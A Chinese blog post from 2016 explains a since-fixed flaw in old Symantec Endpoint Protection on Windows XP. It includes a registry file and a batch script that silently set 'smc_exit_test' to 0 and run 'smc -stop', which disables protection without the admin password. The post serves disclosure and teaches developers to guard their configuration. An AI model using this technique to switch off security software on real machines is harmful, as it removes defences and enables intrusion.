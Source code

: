 ```yaml
---
title: 旧版SEP在Windows XP下的漏洞
alias: 2016/07/31/the-bug-of-sep
dir: /
tags:
  - Windows
categories: 运维
date: 2016-07-31 14:35:44
---
```



低版本的 SEP(Symantec endpoint protection) 在 Windows XP 系统下存在一个漏洞（其他版本 windows 尚未验证），即修改注册表某一键的值后，即可在不输入密码的情况下关闭该软件的相关保护功能。

## 分析

首先创建一个 test.reg 文件，用于修改注册表，内容如下。<!--more-->

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\SMC]
"smc_exit_test"=dword:00000000
```

可以看到我们只需要将位于 `HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\SMC` 中的 `smc_exit_test` 项的值改为0，就可以禁用关闭保护时的检测。

然后创建一个 bat 文件，内容如下：

```
@echo off
regedit.exe/s C:\test.reg
cd  "C:\Program Files\Symantec\Symantec Endpoint Protection"
smc -stop
```

在这个脚本中，我们通过 regedit.exe/s 命令无提示地将刚才定义的 reg 文件内容导入注册表，随后切换到 SEP 的安装目录中，通过执行 SEP 自带的 `smc -stop` 来终止保护。

运行后可以发现并没有出现在直接运行 `smc -stop` 时会弹出的要求输入密码的对话框，SEP 却直接停止了保护。

## 后记

这是 SEP 几年前旧版本中的一个漏洞，在随后的新版本中早已得到修护。我们可以从这个漏洞中看到，在编程时需要考虑一些配置信息的隐藏和权限控制问题（尤其注意早期版本 windows 的注册表），防止通过简单地修改注册表或配置文件即可停止程序主体服务的情况发生。